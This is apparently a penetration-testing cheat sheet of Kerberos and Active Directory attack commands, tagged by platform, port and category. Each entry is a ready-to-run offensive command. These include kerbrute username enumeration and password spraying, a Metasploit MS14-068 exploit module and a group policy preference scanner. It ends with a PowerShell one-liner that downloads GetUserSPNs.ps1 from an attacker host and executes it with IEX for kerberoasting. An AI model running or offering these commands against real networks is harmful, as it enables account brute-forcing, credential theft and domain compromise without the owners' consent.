 # kerberos

% kerberos

## Kerbrute usersenum
#plateform/linux #target/remote #port/88 #protocol/kerberos #cat/ATTACK/BRUTEFORCE-SPRAY 
```
kerbrute userenum --dc <dc_ip> <users_wordlist>
```

## Kerbrute password spraying user=pass
#plateform/linux #target/remote #port/88 #protocol/kerberos #cat/ATTACK/BRUTEFORCE-SPRAY 
```
kerbrute passwordspray --dc <dc_ip> -d <domain> <users_wordlist> --user-as-pass
```

## Kerbrute password spraying
#plateform/linux #target/remote #port/88 #protocol/kerberos #cat/ATTACK/BRUTEFORCE-SPRAY 
```
kerbrute passwordspray --dc <dc_ip> -d <domain> <users_wordlist> <password>
```

## kerberos ms14-068
#plateform/linux #target/remote #port/88 #protocol/kerberos #cat/ATTACK/EXPLOIT 
```
msfconsole -x "use auxiliary/admin/kerberos/ms14_068_kerberos_checksum"
```

## exploit gpp - group policy preference (ms14-025)
#plateform/linux #target/remote #port/88 #protocol/kerberos #cat/RECON 
```
msfconsole -x "use scanner/smb/smb_enum_gpp"
```

## Export TGT to cache
#plateform/linux #port/88 #protocol/kerberos
```
export KRB5CCNAME=$(pwd)/<user>.ccache
```

## powershell - get user SPN
#plateform/windows #target/remote #port/88 #protocol/kerberos #cat/RECON 

https://github.com/nidem/kerberoast
```powershell
(new-object system.net.webclient).downloadstring('http://<lhost>/GetUserSPNs.ps1') | IEX
```